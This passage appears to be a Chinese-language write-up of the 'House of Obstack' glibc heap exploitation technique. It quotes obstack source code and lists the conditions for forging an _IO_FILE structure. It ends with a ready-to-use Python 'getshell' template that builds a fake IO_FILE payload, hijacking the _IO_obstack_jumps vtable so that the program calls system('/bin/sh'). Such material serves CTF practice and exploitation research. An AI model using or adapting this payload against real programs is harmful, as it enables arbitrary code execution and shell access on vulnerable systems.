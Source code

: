 ```c

      /* Now grow for N bytes, and put the data there.  */
      obstack_grow (obstack, data, n);

      ...
}

void
_obstack_newchunk (struct obstack *h, int length)
{
  struct _obstack_chunk *old_chunk = h->chunk;
  struct _obstack_chunk *new_chunk;
  long new_size;
  long obj_size = h->next_free - h->object_base;
  long i;
  long already;
  char *object_base;

  /* Compute size for new chunk.  */
  new_size = (obj_size + length) + (obj_size >> 3) + h->alignment_mask + 100;
  if (new_size < h->chunk_size)
    new_size = h->chunk_size;

  /* Allocate and initialize the new chunk.  */
  new_chunk = CALL_CHUNKFUN (h, new_size);
  [...]
}
```

**fake\_IO满足条件如下：**

- 伪造\_IO\_FILE，并记为A
- `chunkA + 0xd8`设为`_IO_obstack_jumps+/-offset`，使得可以调用`_IO_obstack_xsputn`
- `chunkA + 0xe0`设为`obstack`结构体地址B
- `fp->_IO_write_ptr` &gt; `fp->_IO_write_end`，即 A + 0x28 &gt; A + 0x30
- `obstack -> next_free` &gt; `obstack->chunk_limit`，即 B + 0x18 &gt; B + 0x20
- `obstack->use_extra_arg != 0`，即 B + 0x50 != 0

**getshell模板**

```python
def house_of_obstack(fake_IO_file_addr):
    fake_IO_file = flat(
        {
            0x8: 1,     # next_free
            0x10: 0,    # chunk_limit
            0x18: 1,    # _IO_write_ptr 
            0x20: 0,    # _IO_write_end
            0x28: system,   # gadget
            0x38: fake_IO_file_addr + 0xe8,     # rdi = &'/bin/sh\x00'
            0x40: 1,
            0x58: 0,    # chain
            0x78: _IO_stdfile_2_lock,   # _IO_stdfile_1_lock
            0x90: _IO_wide_data,        # _IO_wide_data_2
            0xc8: _IO_obstack_jumps + 0x20,
            0xd0: fake_IO_file_addr,    # obstack(B)
            0xd8: '/bin/sh\x00'
        }, filler='\x00'
    )
    payload = fake_IO_file

    return payload
```
